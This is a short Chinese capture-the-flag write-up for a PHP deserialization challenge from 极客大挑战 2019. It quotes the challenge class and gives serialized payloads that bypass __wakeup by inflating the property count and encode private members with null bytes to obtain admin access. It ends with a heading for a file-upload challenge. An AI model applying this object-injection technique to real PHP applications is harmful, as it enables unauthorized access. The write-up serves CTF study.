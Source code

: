 提示备份，www.zip

```php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
```



当 `php>7.1`时可以将 private换成 public

这题不行，不可见字符处添加%00
或大写S 加 \00

绕过__wakeup将`说明的参数个数大于实际的参数个数`

PAYLOAD:
```
O:4:"Name":3:{S:14:"\00Name\00username";S:5:"admin";S:14:"\00Name\00password";i:100;}  

O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

---
# [极客大挑战 2019]Upload
- 考点：文件上传绕过
- 考点：php其他后缀
